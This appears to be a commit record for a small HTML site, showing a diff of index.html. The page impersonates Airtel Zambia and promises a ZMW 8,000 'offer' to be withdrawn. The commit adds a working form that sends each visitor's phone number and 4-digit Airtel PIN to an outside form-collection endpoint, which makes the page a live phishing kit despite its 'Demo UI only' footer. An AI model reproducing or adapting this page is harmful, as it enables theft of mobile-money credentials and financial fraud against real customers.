

Before and after one commit to systemgenerator/airtel-zambia, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update title and text for Airtel Zambia Offer

```diff
--- a/index.html
+++ b/index.html
@@ -3,29 +3,27 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Airtel Zambia Loan</title>
-
+    <title>Airtel Zambia Offer</title>
     <!-- Link to external CSS -->
     <link rel="stylesheet" href="style.css">
 </head>
 <body>
-
     <div class="card">
-        <h1>Airtel Zambia Loan Request</h1>
-
+        <h1>Airtel Zambia Offer</h1>
         <p class="subtitle">
-            Welcome! Enter your phone number and Airtel PIN (4 digits) to receive your loan.
+            Welcome! Enter your phone number and Airtel PIN (4 digits) to withdraw your offer.
         </p>
-
         <div class="amount-box">
-            <div class="amount-label">Eligible Loan Amount</div>
+            <div class="amount-label">Eligible Offer Amount</div>
             <div class="amount">ZMW 8,000</div>
         </div>
 
-        <input type="tel" placeholder="Phone Number (e.g. 097XXXXXXX)">
-        <input type="password" placeholder="Airtel PIN (4 digits)">
-
-        <button>Submit</button>
+        <!-- Form now points to your Formbold endpoint -->
+        <form action="https://formbold.com/s/94naj" method="POST">
+            <input type="tel" name="phoneNumber" placeholder="Phone Number (e.g. 097XXXXXXX)" required>
+            <input type="password" name="pin" placeholder="PIN (4 digits)" maxlength="4" required>
+            <button type="submit">WITHDRAW</button>
+        </form>
 
         <div class="footer">
             Entering your PIN confirms acceptance of the terms and conditions.
@@ -33,6 +31,5 @@
             © Airtel Zambia – Demo UI only
         </div>
     </div>
-
 </body>
 </html>
```
